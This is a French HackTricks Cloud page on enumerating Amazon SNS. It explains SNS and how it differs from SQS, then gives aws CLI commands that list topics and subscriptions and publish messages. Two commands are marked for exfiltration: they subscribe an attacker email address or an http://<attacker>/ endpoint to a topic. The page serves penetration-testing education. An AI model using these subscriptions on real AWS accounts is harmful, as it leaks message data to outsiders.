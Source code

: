 # AWS - Enumération SNS

<details>

<summary><strong>Apprenez le piratage AWS de zéro à héros avec</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (Expert en équipe rouge AWS de HackTricks)</strong></a><strong>!</strong></summary>

Autres façons de soutenir HackTricks :

* Si vous souhaitez voir votre **entreprise annoncée dans HackTricks** ou **télécharger HackTricks en PDF**, consultez les [**PLANS D'ABONNEMENT**](https://github.com/sponsors/carlospolop)!
* Obtenez le [**swag officiel PEASS & HackTricks**](https://peass.creator-spring.com)
* Découvrez [**La famille PEASS**](https://opensea.io/collection/the-peass-family), notre collection exclusive de [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Rejoignez le** 💬 [**groupe Discord**](https://discord.gg/hRep4RUj7f) ou le [**groupe Telegram**](https://t.me/peass) ou **suivez-nous** sur **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Partagez vos astuces de piratage en soumettant des PR aux** [**HackTricks**](https://github.com/carlospolop/hacktricks) et [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) dépôts GitHub.

</details>

## SNS

Amazon Simple Notification Service (Amazon SNS) est un **service de messagerie entièrement géré**. Il facilite la communication pour les scénarios **d'application à application** (A2A) et **d'application à personne** (A2P).

Les fonctionnalités A2A du service incluent des **mécanismes de publication/abonnement (pub/sub)**. Ces mécanismes offrent des **sujets**, une fonctionnalité permettant une messagerie **à haut débit, basée sur le push et de nombreux-à-nombreux**. Cela est particulièrement bénéfique dans les scénarios impliquant des systèmes distribués, des microservices et des applications serverless basées sur des événements. En utilisant ces sujets, les systèmes émetteurs peuvent distribuer des messages à un **large éventail de systèmes abonnés**, permettant ainsi efficacement un modèle de messagerie en éventail.

### **Différence avec SQS**

**SQS** est un service **basé sur des files d'attente** qui permet une communication point à point, garantissant que les messages sont traités par un **seul consommateur**. Il offre une **livraison au moins une fois**, prend en charge les files d'attente standard et FIFO, et permet la rétention des messages pour les réessais et le traitement différé.\
D'autre part, **SNS** est un service **basé sur la publication/abonnement**, permettant une communication **de un à plusieurs** en diffusant des messages à **plusieurs abonnés** simultanément. Il prend en charge **divers points de terminaison d'abonnement tels que l'e-mail, les SMS, les fonctions Lambda et HTTP/HTTPS**, et fournit des mécanismes de filtrage pour une livraison ciblée des messages.\
Bien que les deux services permettent de découpler les composants dans les systèmes distribués, SQS se concentre sur la communication en file d'attente, tandis que SNS met l'accent sur les modèles de communication en éventail basés sur des événements.

### **Énumération**
```bash
# Get topics & subscriptions
aws sns list-topics
aws sns list-subscriptions
aws sns list-subscriptions-by-topic --topic-arn <arn>

# Check privescs & post-exploitation
aws sns publish --region <region> \
--topic-arn "arn:aws:sns:us-west-2:123456789012:my-topic" \
--message file://message.txt

# Exfiltrate through email
## You will receive an email to confirm the subscription
aws sns subscribe --region <region> \
--topic-arn arn:aws:sns:us-west-2:123456789012:my-topic \
--protocol email \
--notification-endpoint my-email@example.com

# Exfiltrate through web server
## You will receive an initial request with a URL in the field "SubscribeURL"
## that you need to access to confirm the subscription
aws sns subscribe --region <region>\
--protocol http \
--notification-endpoint http://<attacker>/ \
--topic-arn <arn>
```
{% hint style="danger" %}
Notez que si le **sujet est de type FIFO**, seuls les abonnés utilisant le protocole **SQS** peuvent être utilisés (HTTP ou HTTPS ne peuvent pas être utilisés).

De plus, même si le `--topic-arn` contient la région, assurez-vous de spécifier la région correcte dans **`--region`** sinon vous obtiendrez une erreur qui semble indiquer que vous n'avez pas accès, mais le problème est la région.
{% endhint %}

### Accès non authentifié

{% content-ref url="../aws-unauthenticated-enum-access/aws-sns-unauthenticated-enum.md" %}
[aws-sns-unauthenticated-enum.md](../aws-unauthenticated-enum-access/aws-sns-unauthenticated-enum.md)
{% endcontent-ref %}

### Élévation de privilèges

{% content-ref url="../aws-privilege-escalation/aws-sns-privesc.md" %}
[aws-sns-privesc.md](../aws-privilege-escalation/aws-sns-privesc.md)
{% endcontent-ref %}

### Post-exploitation

{% content-ref url="../aws-post-exploitation/aws-sns-post-exploitation.md" %}
[aws-sns-post-exploitation.md](../aws-post-exploitation/aws-sns-post-exploitation.md)
{% endcontent-ref %}

### Persistance

{% content-ref url="../aws-persistence/aws-sns-persistence.md" %}
[aws-sns-persistence.md](../aws-persistence/aws-sns-persistence.md)
{% endcontent-ref %}

# Références
* [https://aws.amazon.com/about-aws/whats-new/2022/01/amazon-sns-attribute-based-access-controls/](https://aws.amazon.com/about-aws/whats-new/2022/01/amazon-sns-attribute-based-access-controls/)

<details>

<summary><strong>Apprenez le piratage AWS de zéro à héros avec</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Autres façons de soutenir HackTricks:

* Si vous souhaitez voir votre **entreprise annoncée dans HackTricks** ou **télécharger HackTricks en PDF**, consultez les [**PLANS D'ABONNEMENT**](https://github.com/sponsors/carlospolop)!
* Obtenez le [**swag officiel PEASS & HackTricks**](https://peass.creator-spring.com)
* Découvrez [**The PEASS Family**](https://opensea.io/collection/the-peass-family), notre collection exclusive de [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Rejoignez** 💬 le groupe Discord](https://discord.gg/hRep4RUj7f) ou le [**groupe Telegram**](https://t.me/peass) ou **suivez-nous** sur **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Partagez vos astuces de piratage en soumettant des PR aux** [**HackTricks**](https://github.com/carlospolop/hacktricks) et [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
